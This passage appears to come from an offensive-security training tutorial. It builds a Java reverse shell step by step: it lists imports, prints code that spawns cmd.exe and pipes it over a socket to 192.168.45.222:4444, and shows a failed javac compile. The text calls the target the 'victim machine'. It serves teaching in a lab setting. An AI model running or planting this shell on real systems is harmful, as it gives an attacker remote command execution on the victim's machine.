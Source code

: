 Next, we need to add some _import_ statements. Import statements tell the compiler we want to use external classes that are not defined in our code. If we tried to compile or run our Java reverse shell without importing the necessary classes, we'd receive an error.

We'll add the following _import_ statements at the start of the file, before the line with "class RevShell":

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
```

Next, we'll place the example reverse shell within the _main()_ method. We'll need to update the IP address value in the _host_ variable.

Our file should now contain the following code:

```bash
kali@kali:~$ cat RevShell.java                                                    
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

class RevShell {
    public static void main(String[] args) {
        String host="192.168.45.222";
        int port=4444;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    }
}
```

Our code is missing one last piece. If we tried to compile it, we would receive several errors.

***We compile Java code with the _javac_ command. In this scenario, we can rely on the victim machine to compile the code for us. However, if you wish to run javac locally but the command is not found, you can install the necessary files with `sudo apt-get install default-jdk`.***


```bash
kali@kali:~$ javac RevShell.java                
RevShell.java:11: error: unreported exception IOException; must be caught or declared to be thrown
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
...
```
